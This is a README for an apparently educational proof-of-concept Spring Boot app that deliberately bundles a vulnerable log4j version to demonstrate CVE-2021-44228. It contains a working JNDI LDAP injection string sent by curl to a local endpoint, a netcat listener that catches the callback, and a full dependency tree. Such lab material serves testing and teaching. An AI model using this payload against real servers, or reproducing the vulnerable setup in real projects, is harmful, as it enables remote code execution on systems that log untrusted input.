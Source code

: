 # log4j Spring vulnerable POC

This is a POC for a simple spring boot start backend with maven including vulnerable log4j version for [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Spring boot bootstrapped with https://start.spring.io.

## commands

- `./mvnw spring-boot:run`: start server
-  `./mvnw dependency:tree`: print dependency tree and check for log4j version in use
- `nc -k -l 3030`: bash, start server socket to listen for arbitrary incoming TCP connections, e.g. from our vulnerable spring boot application.
- `curl http://localhost:8080/vuln2?input=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A3030%2F%7D` or `curl http://localhost:8080/vuln`: calls vulnerable GET-Endpoints

## How it works

Calling the endpoint (`localhost:8080/vuln` or `/localhost:8080vuln2?input=...` by spring boot) will trigger an HTTP call (here: to `localhost:3030` by `nc`) by writing certain data to log file. For more information please refer to it's CVE.


## current dependency tree

```
[INFO] --- maven-dependency-plugin:3.2.0:tree (default-cli) @ demo ---
[INFO] net.mnio:demo:jar:0.0.1-SNAPSHOT
[INFO] +- org.springframework.boot:spring-boot-starter-web:jar:2.6.1:compile
[INFO] |  +- org.springframework.boot:spring-boot-starter:jar:2.6.1:compile
[INFO] |  |  +- org.springframework.boot:spring-boot:jar:2.6.1:compile
[INFO] |  |  +- org.springframework.boot:spring-boot-autoconfigure:jar:2.6.1:compile
[INFO] |  |  +- jakarta.annotation:jakarta.annotation-api:jar:1.3.5:compile
[INFO] |  |  \- org.yaml:snakeyaml:jar:1.29:compile
[INFO] |  +- org.springframework.boot:spring-boot-starter-json:jar:2.6.1:compile
[INFO] |  |  +- com.fasterxml.jackson.core:jackson-databind:jar:2.13.0:compile
[INFO] |  |  |  +- com.fasterxml.jackson.core:jackson-annotations:jar:2.13.0:compile
[INFO] |  |  |  \- com.fasterxml.jackson.core:jackson-core:jar:2.13.0:compile
[INFO] |  |  +- com.fasterxml.jackson.datatype:jackson-datatype-jdk8:jar:2.13.0:compile
[INFO] |  |  +- com.fasterxml.jackson.datatype:jackson-datatype-jsr310:jar:2.13.0:compile
[INFO] |  |  \- com.fasterxml.jackson.module:jackson-module-parameter-names:jar:2.13.0:compile
[INFO] |  +- org.springframework.boot:spring-boot-starter-tomcat:jar:2.6.1:compile
[INFO] |  |  +- org.apache.tomcat.embed:tomcat-embed-core:jar:9.0.55:compile
[INFO] |  |  +- org.apache.tomcat.embed:tomcat-embed-el:jar:9.0.55:compile
[INFO] |  |  \- org.apache.tomcat.embed:tomcat-embed-websocket:jar:9.0.55:compile
[INFO] |  +- org.springframework:spring-web:jar:5.3.13:compile
[INFO] |  |  \- org.springframework:spring-beans:jar:5.3.13:compile
[INFO] |  \- org.springframework:spring-webmvc:jar:5.3.13:compile
[INFO] |     +- org.springframework:spring-aop:jar:5.3.13:compile
[INFO] |     +- org.springframework:spring-context:jar:5.3.13:compile
[INFO] |     \- org.springframework:spring-expression:jar:5.3.13:compile
[INFO] +- org.springframework.boot:spring-boot-starter-log4j2:jar:2.6.1:compile
[INFO] |  +- org.apache.logging.log4j:log4j-slf4j-impl:jar:2.14.1:compile
[INFO] |  |  +- org.slf4j:slf4j-api:jar:1.7.32:compile
[INFO] |  |  \- org.apache.logging.log4j:log4j-api:jar:2.14.1:compile
[INFO] |  +- org.apache.logging.log4j:log4j-core:jar:2.14.1:compile
[INFO] |  +- org.apache.logging.log4j:log4j-jul:jar:2.14.1:compile
[INFO] |  \- org.slf4j:jul-to-slf4j:jar:1.7.32:compile
[INFO] \- org.springframework.boot:spring-boot-starter-test:jar:2.6.1:test
[INFO]    +- org.springframework.boot:spring-boot-test:jar:2.6.1:test
[INFO]    +- org.springframework.boot:spring-boot-test-autoconfigure:jar:2.6.1:test
[INFO]    +- com.jayway.jsonpath:json-path:jar:2.6.0:test
[INFO]    |  \- net.minidev:json-smart:jar:2.4.7:test
[INFO]    |     \- net.minidev:accessors-smart:jar:2.4.7:test
[INFO]    |        \- org.ow2.asm:asm:jar:9.1:test
[INFO]    +- jakarta.xml.bind:jakarta.xml.bind-api:jar:2.3.3:test
[INFO]    |  \- jakarta.activation:jakarta.activation-api:jar:1.2.2:test
[INFO]    +- org.assertj:assertj-core:jar:3.21.0:test
[INFO]    +- org.hamcrest:hamcrest:jar:2.2:test
[INFO]    +- org.junit.jupiter:junit-jupiter:jar:5.8.1:test
[INFO]    |  +- org.junit.jupiter:junit-jupiter-api:jar:5.8.1:test
[INFO]    |  |  +- org.opentest4j:opentest4j:jar:1.2.0:test
[INFO]    |  |  +- org.junit.platform:junit-platform-commons:jar:1.8.1:test
[INFO]    |  |  \- org.apiguardian:apiguardian-api:jar:1.1.2:test
[INFO]    |  +- org.junit.jupiter:junit-jupiter-params:jar:5.8.1:test
[INFO]    |  \- org.junit.jupiter:junit-jupiter-engine:jar:5.8.1:test
[INFO]    |     \- org.junit.platform:junit-platform-engine:jar:1.8.1:test
[INFO]    +- org.mockito:mockito-core:jar:4.0.0:test
[INFO]    |  +- net.bytebuddy:byte-buddy:jar:1.11.22:test
[INFO]    |  +- net.bytebuddy:byte-buddy-agent:jar:1.11.22:test
[INFO]    |  \- org.objenesis:objenesis:jar:3.2:test
[INFO]    +- org.mockito:mockito-junit-jupiter:jar:4.0.0:test
[INFO]    +- org.skyscreamer:jsonassert:jar:1.5.0:test
[INFO]    |  \- com.vaadin.external.google:android-json:jar:0.0.20131108.vaadin1:test
[INFO]    +- org.springframework:spring-core:jar:5.3.13:compile
[INFO]    |  \- org.springframework:spring-jcl:jar:5.3.13:compile
[INFO]    +- org.springframework:spring-test:jar:5.3.13:test
[INFO]    \- org.xmlunit:xmlunit-core:jar:2.8.3:test
```
